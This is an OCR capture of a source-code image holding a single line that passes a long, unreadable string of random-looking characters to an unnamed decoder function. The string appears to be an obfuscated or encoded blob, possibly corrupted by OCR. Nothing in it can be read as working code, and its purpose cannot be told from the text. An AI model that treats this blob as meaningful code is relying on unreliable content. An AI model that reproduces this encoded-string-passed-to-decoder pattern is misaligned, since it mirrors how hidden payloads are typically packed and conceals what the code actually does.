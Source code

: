 r=h(f,"L2p0f!y(_8H7#4v6yZy88#4Ezy!0y#Hm4fcy2f(78##v2ff(y_H4_66y0H(4H_v02767!y7#vf#7p7(_H_vppff__yvfv#pb!f_y8(vfp4!<067fH(pv!p8!#A6700208H4-6ypH!#8v406#0yy8yv_0v20Hy_H2_(B60(y_!(H6>_fyyHHHv23(6_(H7Hv{2ff_(H80v82Hf8(_HHv6#602(##06fpy!y8f7#6cpf!yy0#_6!pp!f8p#!H722f2yv#Hsf0Nyf8_#Hv867f7f6H7V#p4yv7v4f,_0#yv(#v0Wf0y(#H64=2!6(00_!v_2!0v(_7pv!J#66y0HHHH6#!p(87fv72_2M_H#_6Cpf!__HHy6(p<!f_(((440fy2f(_66v07yf8_##6v%7yrHp##z80u26(74#640v(8Hf4_+#0v!yH7_62yf7_xH!482y!8(#7{vf2ype008#v82_!8(#746p2f!007H0v#pf!{_v4R6fp_!#_v84640f!#87#vH62H!_84426#0yy4Hp4p200_y#HJ4p4#04y#Hf4a76p8y_H84y2_0_(4H0vppzf_(#7{vp6_!_008(vmp0d0y87Hvp2v!y_77#6Bpf#7U2pp6y0<!#8K#f6yX4!_86(74(0_!88HvfP30fy_8H7(myfpyfH!_(460fy88#482p0_p(_v4_25f#((Hdv(2yf4(v7#vf2_f#(v_7vH2#ff(77fvp40p689726pp7!__##}!H8(#v6!p!!78fyp7p#_6#0Fyp((H0vyv(f0Hf#!7(60f!H_4!6v0_(pH!##76f2(y!74p)_f0_dH74f28<f(v7Hvf2_f#(v_4vHp2fH(#y7#(p_f8_H#(6^pf!__HH2v#0pm6(_#(v6pSy(_##Hj#05yf8_#H4_06y&8p4_*7p#(2!07H6vf2y#H(46Kv!_(fH_4#&v2_(8H_v)u#67!p7!vy2v!p_p74vUp2%0!77;v!2_!!_v7f6ppv!__##W6p%2!7_f#86F46078#746v06yf8_##6v2H!vH2##u(0626_2##2pv6!_H(#6uvyf(fH_4#wvpH(7Hf4_&767!(7_48#70(00y6#2pf!2(H7fvvp2f_07746p4(07_p_p4fpH!2_##06uv_yp88#_6#0syp(#H(d_p8yHH74w<f0_v!62pf(7_74#2H2H_f70#y6pfv(0_y(H7Hvr2ff_(H_(4_28f0_#yvvv#60H_y74v72(!y887#6Ppf!y(f#26s02!f8!#Hv#p720(H7v32p#y(86#v2K0fy_8##v4804yv8v##q8v6f!Hy48offyp(_f#!2pfv(_H#vA2ppv((H#v!pf66!77#442vy2_f7_v#2v0H8K#268p.y2_z76H(ovy08p#86fpfyy8y486#0jyf8y7p6_07y68_426v0v26_y##6vf0y#Hy48>vfH(fH_4#Av26_fH64_2867!(7_482H!#_Q7fv_2Hp!(_76v(p!!y_H7#H06_!6807fvHpy!vH2#f6_p#!vf(H7?20py28=#pQ(v(f(8G446_04(fHy4y280#(DHf4yv7f_yHHyv_#028((Hv4y2pfvp6_7v#94fv__7fv_2#fv!_74vp40p68-726pp7!__##s6pz8!f8_#86Hp4ypH_#_6#0Typ(V4(6_pH(lH0#ft8v7f286#_660fp0(8##S706(y7_4#2eff(y8fv22b!2(f7!vHt#f700__462#f#_!7Hr_pV!f__7H6!28y0_b#y6Hpsy0_#77#!vvpp!68%#f6fp8!68(#76Hp7y08_#76#yvHy4fz_0#v02_fH(!Hv47HHvv2qff(_HH7!20!z(fy0#02Hfp(v_287o2f#_4H#v7py!y8_7#6Tpf!yy27y68U!f28y#6#40!!6(y#v462f(I8HvvE<0fy_8H7yg(04y_H2_(v0ffy!!(80v!f_(!8v4_2pf!y#!6v22y67!6HyHy6_fv(!7Yv(2fE#_!7_v#pE!f__7#vTy0!H8H#}6fp_!H_p8#4H0_y!(6#Hvf2pyv(270680y4K8#4b9f0yy(H(47V7fp04yy8H220f(vy84y #f7(07f4!2#fv(f7!4H2Hf4_(H#v8p022(H7Hv#vp0H(v#2v#p(!6y2#!64vH07_#7864pMy!Hw7Q64p#y48